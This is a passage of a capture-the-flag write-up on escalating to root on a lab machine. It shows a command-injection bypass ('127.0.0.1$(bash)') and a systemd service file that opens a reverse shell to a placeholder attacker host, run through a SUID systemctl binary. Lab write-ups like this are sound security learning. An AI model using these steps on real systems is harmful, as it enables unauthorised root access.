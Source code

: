 The following section is interesting:

```python3
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

This is the function which is called when we want to ping an IP.
Since this function sends a system command with user input it is of great importance to us for a PE vector.

Then let's see how we can add malicious code here to get to the user `pepper`.
The function blacklists certain characters:

The bypass is quite simple.
Neither brackets nor the dollar sign are blacklisted so we can run a subshell.

So I entered `127.0.0.1$(bash)` and was user `pepper`.

In the new subshell, however, we don't get to see any output, so I started a new rev-shell from which I could operate normally.

## pepper -> root

While searching for __SUID__ binaries I found the following binary with a SUID bit set.

A look at [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) tells us immediately that here is a PE vector if the SUID bit is set.

I created a __Service File__:

```
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4545 0>&1'

[Install]
WantedBy=multi-user.target
```

I went to the `/dev/shm` directory on the target machine and downloaded the service file to me via `wget` and a `python3 http-server`.

I linked the file `/bin/systemctl link /dev/shm/root.service`, started a final netcat listener and activated the reverse service via `systemctl start root`.

On my listener I got a rev-shell as root and fetched the final flag.

![Screenshot9](./screenshots/9.png)


